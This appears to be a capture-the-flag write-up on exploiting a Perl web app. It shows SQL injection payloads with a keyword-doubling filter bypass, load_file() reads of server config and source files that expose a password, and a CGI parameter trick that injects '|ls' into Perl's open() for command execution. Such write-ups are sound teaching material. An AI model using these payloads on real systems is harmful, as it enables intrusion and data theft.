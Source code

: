 We need to upload a PGP public key file so the website will parse it.
The PGP can contain an SQLi in the email field. Michael A. wrote a script to make everything easier, 
The trick will now be the SQLi itself.

At first, we thought about fetching the users so we could use an activated user perhaps. 
To do this we must first find which table stores them.

## Basic SQLi
The server doesn't sanitize ', so we can just easily inject code.
However, the server does sanitize "union" and "select" among some special characters - the easiest way to check is entering 
a valid SQL query with testing AFTER the comment.

for instance the query

  email = "A' or 1 # union select ()<>?!%= "

Will return something along 
	"A' or 1 #<" 
(so just < isn't sanitized here)

**Incidentally every character is sanitized only once**, so

  email = "A' or 1 # == "

will return

  "A' or 1 # = "

## Getting the users table/columns (Ultimately not useful)  
[This](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet1 
) cheatsheet contains a lot of useful queries, like how to get a list of the tables and of columns:

To get (All) the tables we use:

  ```email = "A' UNunionION SELselectECT table_name,1,1,1,1 FROM information_schema.tables # "```

"table_name" has to be first, because only the first column is shown to the user.

The last table in the response is :

```"information_schema.tables # </br>[different key]</br>
(accounts) A' UNION SELECT table_name,1,1,1,1 FROM"```

So we can see the table name is "accounts"

To get all the coulmns from all of the tables we use:


  email = "A' UNunionION SELselectECT column_name,1,1,1,1 FROM information_schema.columns # "
  
Which returns 

 ```information_schema.columns # </br>[different key]</br>
(path) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(user_id) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(pass) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(activated) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>```


Too bad there are no activated users, which can be verified with 

  ```email = "A' UNunionION SELselectECT activated,1,1,1,1 FROM accounts"```

Trying to insert an activated user or to update one also didn't work...

## Solution

We're interested in the source code, but to know where it is we need to check lighttpd.conf first - because the website is powered by lighttpd.
We can't deliver straight ASCII, because we might have characters which will bang the SQL query.

We can use mySQL's load_file() to load a file, and hex() to encode it into hex:

So to get the [configuration](lighttpd.conf) we can use the following query:

```email = "A' UNunionION SELselectECT ()hex(load_file('/etc/lighttpd/lighttpd.conf')),1,1,1,1 #"```

The result contains the name of our [index page (source)](index.pl), to get it we use:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/public/index.pl')),1,1,1,1 #"```

Inside we can see that the flag is loaded from '../private/config.ini', so we get the flag:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/private/config.ini')),1,1,1,1 #"```

which gives us:

>[Database] Password=BlulS@ablul [CTF] Flag=ILov3P3rl43v3r



## RCE

Inside the index page there are no execute() or system() functions, so RCE is not really straight forward.
However, googling for "perl rce" landed me on [this](http://www.cgisecurity.com/lib/sips.html) page, which includes a section about how open() can be used for RCE:
>If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.

open() is being called from the get_template subroutine:

	sub get_template {
		my $filename = shift;

		open (FILE, $filename);
		my $output = <FILE>;
		close(FILE);

		return $output;
	}

Which is being called from  print_template:

	sub print_template {
		my $filename = shift;

		print get_template($filename);
	}

This function is called 3 times, each time with an argument from the list :

	my %templates = (
		header => 'templates/header.html',
		footer => 'templates/footer.html',
		form => 'templates/form.html',
		error => $query->param('error')
	);

"error" can be injected into, in the form of a parameter.
As I learned from [this](http://www.youtube.com/watch?v=noQcWra6sbU&t=6m33s) talk Perl has a weird way of expanding hashes using lists, and in CGI using one parameter multiple times will create a list.

We can use the same method to insert an arbitrary command to open.
Any of the other variables (header, footer or form) can be replaced with a command in the following way:

`http://<IP>/public/index.pl?error=e&error=form&error=|ls`

Where the second parameter will be the variable we want to inject into, and the third will be the command executed. 
We get the output piped to us.


